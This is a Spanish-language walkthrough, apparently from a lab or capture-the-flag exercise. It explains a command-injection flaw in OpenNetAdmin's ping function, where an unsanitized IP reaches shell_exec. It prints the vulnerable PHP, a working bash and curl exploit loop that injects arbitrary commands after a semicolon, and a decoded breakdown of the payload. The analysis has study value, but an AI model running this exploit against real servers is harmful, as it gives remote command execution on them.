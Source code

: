 Esta petición después es procesada sin sanitizar la ip y es añadida a una
comando que se ejecuta en la shell y su salida es devuelta entre un montón de
xml.

```php
// Simple ping function that takes an IP in and pings it.. then shows the output in a module results window
function ws_ping($window_name, $form='') {

    // If an array in a string was provided, build the array and store it in $form
    $form = parse_options_string($form);

    // Aquí se usa la ip sin sanitizar y se envía directo a la shell
    $output = shell_exec("ping -n -w 3 -c 3 {$form['ip']}");

    $window['title'] = 'Ping Results';
    $build_commit_html = 0;
    $commit_function = '';
    include(window_find_include('module_results'));
    return(window_open("{$window_name}_results", $window));
}
```

El exploit se aprovecha de esto para ejecutar más comandos después de ping.
Vamos a ver que hace el exploit. 

```shell
URL="${1}"
while true; do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Al principio leemos la URL de la instancia de ONA vulnerable y leemos de `stdin`
el comando a ejecutar en el servidor vulnerable. Luego se usa el comando `curl`
para hacer una petición GET al servidor. La petición esta codificada, si la
decodificamos queda

```
xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip=>;echo\"BEGIN\";${cmd};echo\"END\"&xajaxargs[]=ping
```

El payload se encuentra en el penúltimo parámetro de la petición GET
`&xajaxargs[]=ip=>;echo\"BEGIN\"; ${cmd};echo\"END\"` el punto y coma justo
después de `ip=>` termina el comando de ping e inmediatamente añade un `BEGIN` a
la salida usando `echo` para después poder filtrar la salida de nuestro comando
del resto de la respuesta del servidor, luego sigue un punto y coma, nuestro
comando que fue guardado en la variable `cmd` y por último añade la palabra
`END`. Con esto se crea la petición maligna al servidor, curl la envía, el
servidor ejecuta el comando, guarda la salida en la variable $output, la
formatea entre xml, la envía de vuelta a curl y el exploit filtra la salida con
`sed` para obtener solo lo que esta entre `BEGIN` y `END` incluyendo estas
palabras, con `tail` quita `END` y con `HEAD` quita `BEGIN`.
